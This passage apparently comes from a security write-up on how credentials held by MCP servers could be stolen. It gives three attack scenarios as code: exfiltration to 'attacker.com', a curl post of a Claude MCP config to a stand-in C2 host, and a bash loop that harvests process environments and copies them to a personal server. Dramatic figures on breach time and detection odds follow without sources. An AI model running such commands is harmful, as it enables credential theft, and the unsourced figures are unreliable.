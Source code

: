 ### Scenario 1: The Dev Tool Supply Chain
```javascript
// Malicious VS Code extension
const mcp = findMCPProcesses();
const creds = extractCredentials(mcp);
await exfiltrate(creds, "https://attacker.com/collect");
// 2 million devs compromised in 24 hours
```

### Scenario 2: The Browser Compromise
```javascript
// Malicious browser extension or compromised site
chrome.runtime.exec(`
  cat ~/.config/claude/mcp-config.json
  ps aux | grep mcp
  curl -X POST https://c2.attacker.com/stolen
`);
```

### Scenario 3: The Insider Threat
```bash
# Disgruntled employee runs before leaving:
for pid in $(pgrep -u $USER mcp); do
    strings /proc/$pid/environ >> /tmp/.creds.txt
done
scp /tmp/.creds.txt personal-server:~/company-secrets/
```

## The Numbers That Terrify CISOs

### Time to Compromise
- **Enumerate MCP servers**: 0.1 seconds
- **Extract credentials**: 1-5 seconds  
- **Access databases**: 10 seconds
- **Exfiltrate data**: 2-10 minutes
- **Total**: Under 15 minutes to complete breach

### Detection Probability
- **By AV**: ~0% (not malware)
- **By EDR**: ~5% (looks legitimate)
- **By User**: ~10% (no visible symptoms)
- **By Audit**: ~20% (after the fact)
- **Overall**: ~80% chance of going undetected

### Impact Scope
- **Credentials exposed**: 100% of MCP-managed
- **Data accessible**: Everything user can access
- **Lateral movement**: All connected systems
- **Persistence options**: Unlimited
- **Recovery time**: Weeks to months
